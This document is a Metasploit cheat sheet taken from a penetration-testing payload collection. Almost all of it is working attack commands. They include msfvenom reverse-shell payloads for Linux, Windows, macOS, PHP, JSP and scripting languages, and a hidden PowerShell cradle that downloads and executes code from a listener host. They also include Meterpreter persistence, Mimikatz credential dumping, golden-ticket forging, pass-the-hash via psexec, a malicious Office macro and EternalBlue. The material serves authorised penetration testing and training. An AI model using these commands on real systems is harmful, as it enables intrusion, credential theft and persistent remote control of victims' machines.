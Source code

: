 # Metasploit

Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Metasploit%20-%20Cheatsheet.md

## Summary

- [Installation](#installation)
- [Sessions](#sessions)
- [Background handler](#background-handler)
- [Meterpreter - Basic](#meterpreter---basic)
  - [Generate a meterpreter](#generate-a-meterpreter)
  - [Meterpreter Webdelivery](#meterpreter-webdelivery)
  - [Get System](#get-system)
  - [Persistence Startup](#persistence-startup)
  - [Network Monitoring](#network-monitoring)
  - [Portforward](#portforward)
  - [Upload / Download](#upload---download)
  - [Execute from Memory](#execute-from-memory)
  - [Mimikatz](#mimikatz)
  - [Pass the Hash - PSExec](#pass-the-hash---psexec)
  - [Use SOCKS Proxy](#use-socks-proxy)
- [Scripting Metasploit](#scripting-metasploit)
- [Multiple transports](#multiple-transports)
- [Best of - Exploits](#best-of---exploits)
- [References](#references)

## Installation

```powershell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

## Sessions

```powershell
CTRL+Z   -> Session in Background
sessions -> List sessions
sessions -i session_number -> Interact with Session with id
sessions -u session_number -> Upgrade session to a meterpreter
sessions -u session_number LPORT=4444 PAYLOAD_OVERRIDE=meterpreter/reverse_tcp HANDLER=false-> Upgrade session to a meterpreter

sessions -c cmd           -> Execute a command on several sessions
sessions -i 10-20 -c "id" -> Execute a command on several sessions
```

## Background handler

ExitOnSession : the handler will not exit if the meterpreter dies.

```powershell
screen -dRR
sudo msfconsole

use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false

generate -o /tmp/meterpreter.exe -f exe
to_handler

[ctrl+a] + [d]
```

## Meterpreter - Basic

### Generate a meterpreter

```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
```

### Meterpreter Webdelivery

Set up a Powershell web delivery listening on port 8080.

```powershell
use exploit/multi/script/web_delivery
set TARGET 2
set payload windows/x64/meterpreter/reverse_http
set LHOST 10.0.0.1
set LPORT 4444
run
```

```powershell
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');
```

### Get System

```powershell
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Persistence Startup

```powershell
OPTIONS:

-A        Automatically start a matching exploit/multi/handler to connect to the agent
-L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
-P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
-S        Automatically start the agent on boot as a service (with SYSTEM privileges)
-T <opt>  Alternate executable template to use
-U        Automatically start the agent when the User logs on
-X        Automatically start the agent when the system boots
-h        This help menu
-i <opt>  The interval in seconds between each connection attempt
-p <opt>  The port on which the system running Metasploit is listening
-r <opt>  The IP of the system running Metasploit listening for the connect back

meterpreter > run persistence -U -p 4242
```

### Network Monitoring

```powershell
# list interfaces
run packetrecorder -li

# record interface n°1
run packetrecorder -i 1
```

### Portforward

```powershell
portfwd add -l 7777 -r 172.17.0.2 -p 3006
```

### Upload / Download

```powershell
upload /path/in/hdd/payload.exe exploit.exe
download /path/in/victim
```

### Execute from Memory

```powershell
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

### Mimikatz

```powershell
load mimikatz
mimikatz_command -f version
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::wdigest
mimikatz_command -f sekurlsa::searchPasswords
mimikatz_command -f sekurlsa::logonPasswords full
```

```powershell
load kiwi
creds_all
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```

### Pass the Hash - PSExec

```powershell
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > exploit
SMBDomain             WORKGROUP                                                          no        The Windows domain to use for authentication
SMBPass               598ddce2660d3193aad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf  no        The password for the specified username
SMBUser               Lambda                                                             no        The username to authenticate as
```

### Use SOCKS Proxy

```powershell
setg Proxies socks4:127.0.0.1:1080
```

## Scripting Metasploit

Using a `.rc file`, write the commands to execute, then run `msfconsole -r ./file.rc`.
Here is a simple example to script the deployment of a handler an create an Office doc with macro.

```powershell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 4646
set ExitOnSession false
exploit -j -z


use exploit/multi/fileformat/office_word_macro
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.14.22
set LPORT 4646
exploit
```

## Multiple transports

```powershell
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

Then, in AddTransports.ps1

```powershell
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30
```

## Best of - Exploits

- MS17-10 Eternal Blue - `exploit/windows/smb/ms17_010_eternalblue`
- MS08_67 - `exploit/windows/smb/ms08_067_netapi`

## References

- [Multiple transports in a meterpreter payload - ionize](https://ionize.com.au/multiple-transports-in-a-meterpreter-payload/)
- [Creating Metasploit Payloads - Peleus](https://netsec.ws/?p=331)
